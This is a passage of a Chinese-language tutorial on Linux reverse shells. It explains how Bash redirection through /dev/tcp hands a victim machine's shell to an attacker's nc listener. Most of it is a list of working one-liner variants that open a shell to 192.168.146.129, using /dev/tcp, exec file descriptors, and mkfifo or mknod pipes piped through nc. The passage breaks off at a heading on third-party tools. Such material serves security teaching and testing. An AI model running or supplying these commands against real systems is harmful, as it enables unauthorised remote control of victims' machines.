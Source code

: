 ## 0x1：“重定向符”+"/dev/tcp网络通信"Bash反弹Shell

这一类反弹shell的本质是把bash/zsh等进程的 0 1 2 输入输出重定向到远程socket，由socket中获取输入，重定向 标准输出（1）和错误输出（2）到socket。

```
attacker机器上执行：
nc -lvp 2333

victim 机器上执行：
bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
```

- “bash -i”：bash 是linux的一个比较常见的shell，除此之外还有 sh、zsh、等，他们之间有着细小差别
- “-i”：这个参数表示的是产生交互式的shell
- “/dev/tcp/ip/port”：/dev/tcp|udp/ip/port 这个文件可以将其看成一个设备（Linux下一切皆文件），对这个文件进行读写，就能实现与监听端口的服务器的socket通信
- ”>&“：混合输出（错误、正确输出都输出到一个地方），避免受害者机器上依然能看到我们在攻击者机器中执行的指令
- 0>&1：输入0是由 /dev/tcp/192.168.146.129/2333 输入的，也就是攻击机的输入，命令执行的结果1，会输出到 /dev/tcp/192.168.146.129/2333 上，这就形成了一个回路，实现了我们远程交互式shell 的功能
  - ![img](https://img2018.cnblogs.com/blog/532548/201912/532548-20191215091731268-1852930532.png) 

常见的变种命令行如下：

- 方式一：显式用“2>&1”来对错误输出进行重定向 
  - bash -i > /dev/tcp/192.168.146.129/2333 0>&1 2>&1
- 方式二：唯一区别就是 0>&1 和 0<&1 ，其实就是打开方式的不同，而对于这个文件描述符来讲并没有什么区别
  - bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
  - bash -i >& /dev/tcp/192.168.146.129/2333 0<&1
- 方式三：
  - bash -i >& /dev/tcp/192.168.146.129/2333 <&2
  - bash -i >& /dev/tcp/192.168.146.129/2333 0<&2
  - ![img](https://img2018.cnblogs.com/blog/532548/201912/532548-20191215093600154-402836042.png)

- 方式四：
  - exec 5<>/dev/tcp/192.168.146.129/2333;cat <&5|while read line;do $line >&5 2>&1;done
    - “exec 5<>/dev/tcp/192.168.146.129/2333”：这一句将文件描述符5重定向到了 /dev/tcp/192.168.146.129/2333 并且方式是读写方式，于是我们就能通过文件描述符对这个socket连接进行操作了
    - “command|while read line do .....done”：从文件中依次读取每一行，将其赋值给 line 变量（这里变量可以很多，以空格分隔），之后再在循环中对line进行操作。
    - ”>&5 2>&1“：使用管道符对攻击者机器上输入的命令依次执行，并将标准输出和标准错误输出都重定向到了文件描述符5，也就是攻击机上，实现交互式shell的功能
  - 0<&196;exec 196<>/dev/tcp/192.168.146.129/4444; sh <&196 >&196 2>&196
- 方式五：
  - rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.146.129 2333 >/tmp/f
    - “mkfifo”：首先创建了一个管道
    - “cat”：将管道里面的内容输出传递给/bin/sh
    - “/bin/sh -i 2>&1|nc .... > /tmp/f”：sh会执行管道里的命令并将标准输出和标准错误输出结果通过nc 传到该管道，由此形成了一个回路
  - mknod backpipe p; nc 192.168.146.129 2333 0<backpipe | /bin/bash 1>backpipe 2>backpipe

## 0x2：第三方软件内置“socket通信”+“指令交互”实现反弹shel功能

第三方软件可以通过编译性或者解释性语言，在内部实现系统命中的调用执行以及网络双向通信的功能。理论上说，这类方式的变化是无限的。

### 1. nc
